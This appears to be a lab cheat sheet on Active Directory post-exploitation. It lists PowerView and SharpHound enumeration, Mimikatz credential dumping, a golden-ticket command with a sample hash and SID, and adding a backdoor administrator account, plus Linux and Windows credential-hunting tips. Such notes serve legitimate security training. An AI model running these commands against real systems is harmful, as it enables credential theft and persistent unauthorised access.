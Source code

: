 # [Import all this using Import-Module x]
# PowerView
Start Powershell - `powershell -ep bypass` -ep bypasses the execution policy of powershell allowing you to easily run scripts
Start PowerView - `. .\Downloads\PowerView.ps1`
Enumerate the domain users - `Get-NetUser | select cn`    
Enumerate the domain groups - `Get-NetGroup -GroupName *admin*`

# Sharphound
``.\Sharphound.ps1`
``Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip``

# Bloodhound
`neo4j console` then `bloodhound`

# Mimikatz
privilege::debug then `lsadump::lsa /patch`
crack these hashes  using hashcat in mode 1000
`lsadump::lsa /inject /name:krbtgt`  dumps the hash and SID of TGT account for golden ticket
for golden ticket (on kerberoastable accs) - `kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:2777b7fec870e04dda00cd7260f7bee6 /id:500`
then `misc::cmd`

# After Getting a Shell
On Linux ideally we would be looking for opportunities to gain access to a user account. SSH keys stored at `/home/<user>/.ssh` are often an ideal way to do this. Some exploits will also allow you to add your own account. In particular something like [Dirty C0w](https://dirtycow.ninja/) or a writeable /etc/shadow or /etc/passwd would quickly give you SSH access to the machine, assuming SSH is open.

On Windows the options are often more limited. It's sometimes possible to find passwords for running services in the registry. VNC servers, for example, frequently leave passwords in the registry stored in plaintext. Some versions of the FileZilla FTP server also leave credentials in an XML file at `C:\Program Files\FileZilla Server\FileZilla Server.xml`  
 or `C:\xampp\FileZilla Server\FileZilla Server.xml`  

These can be MD5 hashes or in plaintext, depending on the version.
Ideally on Windows you would obtain a shell running as the SYSTEM user, or an administrator account running with high privileges. In such a situation it's possible to simply add your own account (in the administrators group) to the machine, then log in over RDP, telnet, winexe, psexec, WinRM or any number of other methods, dependent on the services running on the box.

The syntax for this is as follows:
`net user <username> <password> /add`
`net localgroup administrators <username> /add`

Metasploit tip: You can upgrade a shell to a Meterpreter 
session on many platforms using sessions -u 
<session_id>



## Resources 
-   [https://blog.harmj0y.net/](https://blog.harmj0y.net/)[](https://blog.harmj0y.net/)
-   [https://adsecurity.org/?page_id=1821](https://adsecurity.org/?page_id=1821)[](https://adsecurity.org/?page_id=1821)
-   [https://metasploit.help.rapid7.com/docs/about-post-exploitation](https://metasploit.help.rapid7.com/docs/about-post-exploitation)  
    
-   [http://www.pentest-standard.org/index.php/Post_Exploitation](http://www.pentest-standard.org/index.php/Post_Exploitation)
-   [https://offsec.red/mimikatz-cheat-sheet/](https://offsec.red/mimikatz-cheat-sheet/)[](https://offsec.red/mimikatz-cheat-sheet/)
-   [https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)[](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)

## Tools/Malware Used 

-   [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)[](https://github.com/gentilkiwi/mimikatz)
-   [https://github.com/BloodHoundAD/BloodHound/blob/master/Ingestors/SharpHound.ps1](https://github.com/BloodHoundAD/BloodHound/blob/master/Ingestors/SharpHound.ps1)[](https://github.com/BloodHoundAD/BloodHound/blob/master/Ingestors/SharpHound.ps1)
-   [https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)